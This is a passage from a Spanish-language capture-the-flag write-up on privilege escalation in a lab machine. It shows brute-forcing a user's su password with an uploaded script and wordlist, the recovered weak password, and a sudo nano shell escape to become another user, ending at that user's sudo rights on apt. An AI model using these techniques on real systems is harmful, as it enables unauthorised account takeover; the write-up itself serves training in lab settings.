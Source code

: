 ```python
```
# ESCALADA PRIVILEGIOS

Vemos los usuarios y tenemos a **cafetero , bobby y john**.

Tras un rato, no veo forma de escalar, voy a hacer fuerza bruta con cafetero.

Nos descargamos : https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.py y subimos el programa por el upload.php y el diccionario igual (uno no muy grande) :

```bash
www-data@bc070f92e382:/var/www/dev.hidden.lab/uploads$ ./Linux-Su-Force.sh cafetero 500-worst-passwords.txt 
Contraseña encontrada para el usuario cafetero: 123123

```

**Usuario -> cafetero**
**Contra -> 123123**

YA ESTAMOS COMO CAFETERO.

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
cafetero@bc070f92e382:/var/www/dev.hidden.lab/uploads$ sudo -l
Matching Defaults entries for cafetero on bc070f92e382:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cafetero may run the following commands on bc070f92e382:
    (john) NOPASSWD: /usr/bin/nano


```

Vemos **nano** con permisos SUDO:

   ```bash
sudo -u john nano
^R^X
reset; sh 1>&0 2>&0
```

YA ESTAMOS COMO JOHN.

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
john@bc070f92e382:/var/www/dev.hidden.lab/uploads$ sudo -l
Matching Defaults entries for john on bc070f92e382:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on bc070f92e382:
    (bobby) NOPASSWD: /usr/bin/apt


```
